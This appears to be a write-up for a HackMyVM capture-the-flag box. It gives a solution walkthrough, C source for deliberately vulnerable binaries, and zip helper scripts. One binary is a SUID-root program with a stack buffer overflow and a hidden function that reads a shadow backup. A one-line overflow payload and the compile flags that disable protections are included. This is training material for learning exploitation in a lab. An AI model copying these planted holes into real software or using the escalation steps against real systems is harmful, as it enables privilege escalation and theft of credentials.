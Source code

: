 **Dated:** 12 Jan 2021

**Solution** for the **MessedUP** linux box -  **HackMyVM** site ~ Made and tested in VMWare Workstation
> 1. Avoid rabbit holes
> 1. Connect to FTP (port 8080) as anon user and download/read the file
> 1. Connect to tftp and download 125.zip file
> 1. Extract it
> 1. Portknocking sequence revelaed (8721, 45000, 9191)
> 1. Enumerate the webserver (port 65,000)
> 1. Try running gobuster against it
> 1. Any useful directory found ??? (projects) 
> 1. What about arbitary file upload vulnerability for getting RCE / Rev Shell? (uploaded_files)
> 1. Exploit passwordstrength binary and then overspill binary 
> 1. Become root 

**Name: passwordstrength app**\
On Kali box create vulnerable application by running: `gcc -m32 passwordstrength.c -o passwordstrength.exe`\
Copy the `.exe` to `Debian10 - 32bit`\
Chown it to skinny:skinny & allow all to READ/EXECUTE this.
```c
#include<stdio.h>
#include<string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

int main ()
{
char *str = NULL;
FILE * fPtr;

printf("Welcome to ***Password Strength Assessment*** Application v01 \nDesigned by: https://grumpygeekwrites.wordpress.com\n");

fPtr = fopen("3l3.txt", "r");

if(fPtr == NULL)
	    {
	 /* Unable to open file hence exit */
	printf("Unable to open file.\n");
	printf("Please check whether file exists and you have read privilege.\n");
	exit(EXIT_FAILURE);	
	    }

else
{
char c;
while((c=fgetc(fPtr))!=EOF)
{
	 printf("%c",c);
}

        fclose(fPtr);
}

printf("\nPlease enter input:");

scanf("%ms",&str);
  
if (str) 
	{
	printf("Your input was:%s\n",str);
	free(str);
	printf("-_____- Hmmmm let me analzye this -_____- \n");
	sleep(1.25);
	int loop=0;
	int upper=15;
	int lower=3;
	int runtime=0;
	srand(time(0));
	runtime=(rand() % (upper - lower + 1)) + lower;
	for (loop=0;loop<=runtime;loop++)
		{
		printf("\nIam tired, let me sleep please **__** %d",loop);
	       	printf("\nAhhh I hate being ... Ahhhhhhhhh, stop it");
		printf("\nLet me try again ... Although I dont have any energy\n\n");	
		}
	
	printf("Iam going off now, sorry to disappoint you ¯_(ツ)_/¯¯_(ツ)_/¯¯_(ツ)_/¯, will try someother time\n");	
	}

else if (str == "I have a laptop and computer in year2020")
	{
	printf("\n WoW!!! here are some of the notes of 'grumpygeek' regarding passwords");
	printf("\nworstpasswordexamples");
	printf("\nweakpassword 1->  password");
	printf("\nweakpassword 2-> newbie");
	printf("\nweakpassword 3-> KBQWW2LTORQW4CQ=");
	printf("\nweakpassord 4-> MNZGSY3LMV2AU===");

	printf("\ngoodpasswordexamples");
	printf("\nstrongpassword 1-> N.CagewasInConAirMovie");
	printf("\nstrongpassword 2-> KNUG6YLJMJAWW2DUMFZDCMBQL5RG653MONDGC43UBI======");
	printf("\nstrongpassword 3-> NFYHA43FMMXHE33DNNZQ====");
	printf("\nstrongpassword 4-> Pakistani Mangoes are great in taste");
	}

else
	{
	printf("Give me some input please, I am not an idiot :-/");
	}
  return 0;
}
```
**Solution**
> 1. strings passwordstrength.exe
> 1. try base32 decoding strings as one of them is a valid password for user skinny.


**Name: overspill app**\
On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> 1. strings overspill.obj (can be skipped)
> 1. readelf -s ./overspill.obj | grep read (notedown the address)
> 1. inside python ---> import pwn; pwn.p32(0x<the address); 
> 1. the above command will convert the address into little endian.
> 1. python -c 'print("A"*35+"<Little Endian HEX address of read_sensitive_file")' | ./overspill.obj

**Name: createZIP.py**
```python
import os
import time

loop=0;

while loop <= 125:
    loop_value = str(loop)
    filename = loop_value+'.zip'

    if (loop == 0):
        os.system("zip " +filename+ " notes.txt")

    else:
        time.sleep(1)
        previous_value = loop - 1
        previous_value = str(previous_value)+".zip"
        os.system("zip " +filename+" "+previous_value)
        os.system("rm " +previous_value)

    loop=loop+1
```

**Name: ZIPextractor.py**
```python
import os;
import time;
loop = 125

while loop >= 0:
    time.sleep(0.1)
    filename=str(loop)+'.zip'
    os.system("unzip "+filename)
    os.system("rm "+filename)
    loop = loop -1
```
